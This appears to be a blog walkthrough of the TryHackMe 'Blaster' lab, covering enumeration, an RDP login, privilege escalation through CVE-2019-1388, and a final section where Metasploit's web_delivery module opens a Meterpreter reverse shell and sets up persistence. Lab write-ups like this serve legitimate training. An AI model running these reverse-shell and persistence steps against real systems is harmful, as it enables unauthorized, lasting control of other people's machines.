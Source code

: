 ```yaml
---
layout: post
title: Blaster – Try Hack Me
subtitle: Walkthrough
tags: [active,directory,windows]
---
```


Blaster presents us with a Windows basic where we can put in practice from interesting concepts. 

Learning Objectives:

* Diretory Bruteforcing
* RDP
* Priviledge Escalation
* Persistence Mechanisms 



[Challenge](https://tryhackme.com/room/blaster)

## Task 1

Initiate the VPN connection and deploy the machine

## Task 2 -> Enumeration 

We start by adding the IP address of our machine to the /etc/hosts

~~~
echo "10.10.92.243 blast" > /etc/hosts
~~~

Nmap scan to discover what we are working with

**Note:** We are using flag '-Pn' to skip host discovery. If you try using ping you might have run into troubles for the machine to answer you.

~~~
nmap -Pn -sV -sC -T5 blast
~~~

![nmap](/img/2020-04-30-blast/nmap.png)

Looking at the webserver we see the default IIS web page.

![iis](/img/2020-04-30-blast/iis.png)

With gobuster we can try to find some endpoints using a basic Kali wordlist.

~~~
gobuster dir -u http://10.10.92.243/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
~~~

![gobuster](/img/2020-04-30-blast/gobuster.png)

Once gobuster returns an endpoint and we have a look at it, we find this post full of interesting information.

![wade](/img/2020-04-30-blast/wade.png)

After a quick search on [fandom](https://readyplayerone.fandom.com/wiki/Wade_Watts), we find the name of Wade's avatar.  
The next step is to log into the machine using Microsoft Remote Desktop as suggested we will use Remmina for this. We are using RDP as a protocol 'blast' for the IP.  
Once inside the machine open the 'user.txt' file.

~~~
apt install remmina
remmina &
~~~

![rdp](/img/2020-04-30-blast/rdp.png)

## Task 3 -> Breaching the Control Room

Having a quick look at the machine we notice that the Recycle Bin is not empty and has a program inside called "hhupd".  
Another interesting place to look is the browser history.

![cve](/img/2020-04-30-blast/cve.png)

We find a nist webpage containing the 'CVE-2019-1388' as a title. After a quick search on what this CVE is about we can exploit. This [proof of concept](https://github.com/jas502n/CVE-2019-1388) even though it is not in English it is easy to understand.  
Let's begin the exploit, start by running the found program 'hhupd' as Administrator.  

![details](/img/2020-04-30-blast/details.png)
![site](/img/2020-04-30-blast/site.png)

By clicking  on the link, a new process owned by nt authority\system will be started. Simply close the program and in the browser you must save the webpage.

![save](/img/2020-04-30-blast/save.png)

We are prompt with the following saving page. Either search for the C:\Windows\System32 and find the cmd or in the drop down menu select the cmd.  
A quick 'whoami' shows that we are still nt authority\system having complete control of the system.

![root](/img/2020-04-30-blast/root.png)

And now we are ready to open the flag file in the Administrator directory.

![flag](/img/2020-04-30-blast/flag.png)

## Task 4 -> Adoption into the Collective

The last task is to establish persistence in the system. We start Metasploit, use the module specified and have a quick look at the options required.

~~~
msfconsole -q
use exploit/multi/script/web_delivery
options
~~~

![msf1](/img/2020-04-30-blast/msf1.png)

Now we need to set the options. Start with setting target to PSH, lhost blast and lport to any port that is not being used.  
Finally, set the payload to the specified one.

~~~
show targets
set target 2
set lhost blast
set lport 3389
set payload windows/meterpreter/reverse_http
~~~

![msf2](/img/2020-04-30-blast/msf2.png)

Simply run the module.

~~~
run -j
~~~



![msf3](/img/2020-04-30-blast/msf3.png)

Run the command on the compromised machine and a reverse shell will spawn in a new Metasploit session.  
Using Metasploit we can look at persistence mechanisms using the following command. 

~~~
run persistence -X
~~~

![msf4](/img/2020-04-30-blast/msf4.png)

Hope you enjoyed this guide.
